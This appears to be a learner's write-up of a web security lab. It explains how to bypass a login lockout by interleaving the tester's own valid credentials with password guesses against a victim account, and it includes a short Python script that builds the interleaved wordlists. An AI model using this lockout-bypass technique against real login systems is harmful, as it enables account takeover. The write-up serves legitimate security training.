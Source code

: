 This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- Candidate passwords

---

The app has an information error letting me know if i have the correct username. The app locks the user out after 3 attempts.

As i read before in the previous explanation, i can put a correct user/pass combo to stop the lock out from firing. 

So for my pass list i will need to have my user/pass every two entries to reset the lock out mechanism.

I need to make a python script to set up the usernames and pass otherwise i'll have to add the entries manually. 

```python
#!/usr/bin/python3

print("########## Usernames ##########")
for i in range(150):
	if i % 3: 
		print("carlos")
	else:
		print("wiener")

print("########## Passwords ##########")
with open("passwords.txt", "r") as f:
	lines = f.readlines()

i = 0
for pwd in lines:
	if i % 3:
		print(pwd.strip("\n"))
	else:
		print("peter")
		print(pwd.strip("\n"))
		i = i+1
	i = i+1
```

